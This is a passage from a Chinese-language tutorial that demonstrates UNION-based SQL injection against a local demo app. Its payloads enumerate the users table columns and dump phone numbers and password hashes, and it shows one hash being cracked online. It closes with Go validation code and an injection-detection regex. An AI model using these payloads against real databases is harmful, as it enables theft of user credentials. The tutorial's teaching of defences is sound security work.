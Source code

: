 ```
    "HashID": "1",
    "Title": "2",
    "Content": "password",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 2,3#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 2,3#'",
    "Err": ""
  }
}
```
拿到了用户表手机号密码字段名：mobile、password；
#### 第六步：暴数据
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,mobile,password from users limit 0,1%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "13000000000",
    "Content": "a906449d5769fa7361d7ecc6aa3f6d28",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,mobile,password from users limit 0,1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,mobile,password from users limit 0,1#'",
    "Err": ""
  }
}
```
1、通过表名users和字段名，暴露了第一个用户的手机号和密码；<br>
2、递增limit，可以暴露出所有手机号和密码；<br>

打开网址：https://www.cmd5.com/ ；输入密码字符串，解密密码字符串为：123abc


#### 总结
**1、用户的输入都是非法的数据，需要进行验证、过滤、转义。**
```go
type HashIDField struct {
    HashID string `binding:"required,alphanum"`
}
// 参数hashID组成结构限制为字母和数字，有效的避免了用户输入单引号、井号、百分号、空格等非法字符，参数长度限制联表的可能性
```

某些场景下，比如搜索功能，就不好限制字母和数字，可以通过检查参数是否含有sql注入需要的关键词进行验证。
```go
type KeywordField struct {
    Keyword string `binding:"required,sqlinject"`
}

func sqlInject(s string) bool {
    detectSqlInjectRegex := `(?:')|(?:--)|(/\\*(?:.|[\\n\\r])*?\\*/)|(\b(select|update|and|or|delete|insert|trancate|char|chr|into|substr|ascii|declare|exec|count|master|into|drop|execute)\b)`
    return regexp.MustCompile(detectSqlInjectRegex).MatchString(s)
}
```

